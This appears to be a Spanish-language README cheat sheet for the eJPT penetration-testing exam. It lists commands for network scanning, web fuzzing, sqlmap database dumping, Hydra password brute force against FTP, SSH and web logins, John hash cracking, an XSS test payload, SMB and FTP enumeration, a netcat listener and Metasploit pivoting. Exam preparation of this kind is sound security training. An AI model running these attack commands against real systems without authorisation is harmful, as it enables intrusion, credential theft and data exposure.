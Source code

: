# eJPT-Cheatsheet
Todos los comandos necesarios para aprobar el eJPT
# Barrido de ping - Ping sweep
## Nmap
```sql
nmap -sn 10.10.10.0/24
```
## fping
```sql
fping -a -g 10.10.10.0/24 2>/dev/null
```
# Password cracking
## John
```python
john --wordlist=/usr/share/wordlists/rockyou.txt hashes.txt
```
## Online Tools
[CrackStation](https://crackstation.net/)
# Dump Hashes
## unshadow 
```sql
unshadow passwd shadow > hashes.txt
```
# Fuzzing
## Nmap
```python
nmap --script=http-enum -p80 10.10.14.16 -oN webScan
```
## wfuzz
```python
wfuzz -c --hc=404 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u https://10.10.14.15/FUZZ
wfuzz -c --hc=404 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u https://10.10.14.15/FUZZ.php
```
## dirb
```sql
dirb http://10.10.15.12
```
## gobuster
```sql
gobuster dir -u 10.10.14.12 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x php,txt,html
```
# SQLMap
```sql
sqlmap -u "http://10.10.14.12/file.php?id=1" -p id
sqlmap -u "http://10.10.14.12/file.php?id=1" -p id --dbs
sqlmap -u "http://10.10.14.12/file.php?id=1" -p id -D dbname --tables
sqlmap -u "http://10.10.14.12/file.php?id=1" -p id -D dbname -T table_name --dump
```
# Hydra
```sql
hydra -v -l admin -P passlist.txt ftp://192.168.0.1
hydra -v -L userlist.txt -P passlist.txt ftp://192.168.0.1
hydra -v -l root -P passwords.txt -t 1 -u 10.10.14.10 ssh
hydra http://10.10.14.10/ http-post-form "/login.php:user=^USER^&password=^PASS^:Incorrect" -L userlist.txt -P passwordslist.txt
```
# XSS
```sql
<script>alert(xss)</script>
<h1>H1</h1>
```
# SMB
## Enumeración de SMB
```sql
smbclient -L 10.10.14.12 -N
smbmap -H 10.10.14.12 -u 'null'
nmap --script=smb-vuln* -p445 10.10.14.15 -oN smbScan
smbmap -H 10.10.14.15 -R backups -u 'null'
```
## Acceso al recurso compartido **backups**
```sql
smbclient //10.10.14.15/backups
```
# FTP
## Enumeración de FTP
```sql
nmap --script=ftp-anon -p21 10.10.14.12
ftp 10.10.14.12
cd ..
```
## FTP - Fuerza Bruta
```sql
hydra -l admin -P passlist.txt ftp://192.168.0.1
hydra -L userlist.txt -P passlist.txt ftp://192.168.0.1
```
# Enumeracíon de windows
```sql
dir /b/s "\*.conf*"
dir /b/s "\*.txt*"
dir /b/s "\*secret*"
route print
netstat -r
fsutil fsinfo drives
wmic logicaldisk get Caption,Description,providername
```
# Reverse Shell
## nc
```sql
nc -nlvp 443
```
## metasploit
```sql
msfconsole
```
# Post Explotación
## Pivoting
### Ip Route
```sql
ip route add 10.10.16.0/24 via 10.10.16.1 dev tap0
```
### Metasploit
```sql
run autoroute -s 10.10.16.0/24
```
## Wireshark
```sql
ip.addr==192.168.12
ip.src == 192.168.2.11
ip.dst == 192.168.2.15
```
